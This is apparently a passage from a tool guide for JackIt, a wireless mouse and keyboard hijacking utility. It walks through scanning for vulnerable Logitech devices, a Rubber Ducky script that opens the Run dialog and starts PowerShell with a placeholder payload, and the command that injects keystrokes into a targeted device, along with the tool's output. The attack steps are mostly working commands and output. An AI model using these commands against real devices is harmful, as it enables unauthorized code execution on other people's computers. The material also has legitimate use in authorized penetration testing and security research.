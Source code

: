 Scan the surrounding area for vulnerable devices by simply typing `jackit` into any terminal. JackIt will continuously scan the area for wireless mice and keyboards. A vulnerable device will identify its address (serial number), channel, and type in the terminal. 

```bash
$ jackit

     ____.              __   .___  __
    |    |____    ____ |  | _|   |/  |_
    |    \__  \ _/ ___\|  |/ /   \   __\
/\__|    |/ __ \\  \___|    <|   ||  |
\________(____  /\___  >__|_ \___||__|
              \/     \/     \/
JackIt Version 1.00
Created by phikshun, infamy

[!] You must supply a ducky script using --script <filename>
[!] Attacks are disabled.
[+] Starting scan...

[+] Scanning every 5s CTRL-C when ready.

  KEY  ADDRESS         CHANNELS                    COUNT  SEEN         TYPE          PACKET
-----  --------------  ------------------------  -------  -----------  ------------  -----------------------------
    1  C7:D4:21:98:07  74                              3  0:00:07 ago  Logitech HID  00:C2:00:00:03:10:00:00:00:2B
```

This information can be used for a targeted attack. For example, the below USB Rubber Ducky payload is used to open a run window and inject keystrokes into the target computer.

```bat
GUI r
DELAY 1000
STRING powershell <payload here>
ENTER
```

Inject keystrokes into the target device with the following command.

```bash
$ jackit --reset --address C7:D4:21:98:07 --vendor Logitech --script /path/to/ducky/script.txt
```

Press `Ctrl + c` to stop scanning. JackIt will ask which address to inject the keystrokes. This is a targeted attack, so only one serial number will appear in the scan. Press `1`, then `Enter`.


```
[+] Sniffing for C7:D4:21:98:07 every 5s CTRL-C when ready.

  KEY  ADDRESS           CHANNELS    COUNT  SEEN         TYPE          PACKET
-----  --------------  ----------  -------  -----------  ------------  -----------------------------
    1  C7:D4:21:98:07           2        1  0:00:10 ago  Logitech HID  00:C2:00:00:00:00:00:00:00:00
^C

[+] Select target keys (1-1) separated by commas, or 'all':  [all]: 1
[+] Ping success on channel 65
[+] Sending attack to C7:D4:21:98:07 [Logitech HID] on channel 65

[+] All attacks completed
```

